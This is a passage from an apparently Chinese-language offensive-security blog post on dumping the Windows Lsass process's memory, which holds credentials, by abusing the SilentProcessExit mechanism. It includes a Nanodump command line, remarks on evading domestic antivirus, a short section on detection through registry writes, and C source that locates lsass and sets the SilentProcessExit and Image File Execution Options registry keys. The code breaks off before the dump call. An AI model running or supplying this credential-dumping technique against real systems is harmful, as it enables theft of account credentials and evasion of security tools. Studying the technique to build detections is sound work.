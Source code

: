 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221552.png)
获取debug权限、设置注册表、通过进程名获取Lsass进程pid等函数的具体实现，可以参考文末的完整代码。其中SavePath这个宏设置的是dmp文件存储路径，C:\temp。
编译之后，执行程序，成功写入注册表并获取到Lsass进程的dmp文件。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221553.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221554.png)
以进程名及其pid号命名的文件夹里保存了Lsass进程的dmp文件，除此之外，还会有dump进程本身的dmp文件，这是由于RtlReportSilentProcessExit()函数执行时，虽然传了Lsass的句柄，但是归根结底dump程序自身也调用了。![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221555.png)
开源工具Nanodump中也集成了这种手法:       nanodump --werfault C:\Windows\Temp\
(dmp文件存放目录)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221556.png)
可以看到dump出的文件保存在了设置的路径中：![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230628221557.png)
这个方法其实很早就有了，虽然能过很多国内杀软，但是经过测试过不了Defender，如果有大佬有更好的利用思路欢迎私信交流。  

##  **0x05 检测方法** ****

     虽然SlientProcessExit机制比较隐蔽，目前基本很难被国内的杀软检测，但是这个机制的不足就在于需要进行注册表设置。    一般来说，机器默认是没有以下注册表路径的：        HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe；        HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe；    所以在使用SlientProcessExit机制进行Lsass Dump之前，一定需要添加相应的注册表键值和数据，这个注册表Set Value的行为可被作为这种方法的检测特征。

##  **0x05 后记** ****

     除了SlientProcessExit机制之外，还有一种利用WerFault进程和正常系统机制来进行Lsass Dump的方法，这个方法相比于SlientProcessExit机制具有更好的隐秘性，将在下篇文章进行介绍。

##  **0x06 完整代码** ****

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    # include <stdio.h>#include <windows.h>#include <tlhelp32.h>#define SavePath L"c:\\temp"  
    //获取lsass进程pidDWORD FindProcessId() {  PROCESSENTRY32 processInfo;  processInfo.dwSize = sizeof(PROCESSENTRY32);  HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);  if (snapshot == INVALID_HANDLE_VALUE) {    return 0;  }  if (Process32First(snapshot, &processInfo)) {    do {      if (!_wcsicmp(L"lsass.exe", processInfo.szExeFile)) {        CloseHandle(snapshot);        return processInfo.th32ProcessID;      }    } while (Process32Next(snapshot, &processInfo));  }  CloseHandle(snapshot);  return 0;}  
    //修改注册表int regedit(){  HKEY hKey;  LONG result;  //创建并打开 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\lsass.exe" 子键  result = RegCreateKeyEx(  HKEY_LOCAL_MACHINE,  L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\SilentProcessExit\\lsass.exe",  0,  NULL,  REG_OPTION_NON_VOLATILE,  KEY_WRITE,  NULL,  &hKey,  NULL  );  //添加 DumpType 类型为 REG_DWORD 的内容，数据为0x2  DWORD dumpTypeValue = 0x02;  result = RegSetValueEx(hKey, L"DumpType", 0, REG_DWORD, (const BYTE*)&dumpTypeValue, sizeof(DWORD));   //添加 LocalDumpFolder 类型为 REG_SZ 的内容，数据为 c:\temp（SavePath）  result |= RegSetValueEx(hKey, L"LocalDumpFolder", 0, REG_SZ, (const BYTE*)SavePath, sizeof(SavePath));   //添加 ReportingMode 类型为 REG_DWORD 的内容，数据为0x2  DWORD reportingModeValue = 0x02;  result |= RegSetValueEx(hKey, L"ReportingMode", 0, REG_DWORD, (const BYTE*)&reportingModeValue, sizeof(DWORD));  RegCloseKey(hKey);   //创建并打开 "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\lsass.exe" 子键  result = RegCreateKeyEx(  HKEY_LOCAL_MACHINE,  L"SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\lsass.exe",  0,  NULL,  REG_OPTION_NON_VOLATILE,  KEY_WRITE,  NULL,  &hKey,  NULL  );  //添加 GlobalFlag 类型为 REG_DWORD 的内容，数据为0x200  DWORD globalFlagValue = 0x200;  result = RegSetValueEx(hKey, L"GlobalFlag", 0, REG_DWORD, (const BYTE*)&globalFlagValue, sizeof(DWORD));  RegCloseKey(hKey);  return 0;}    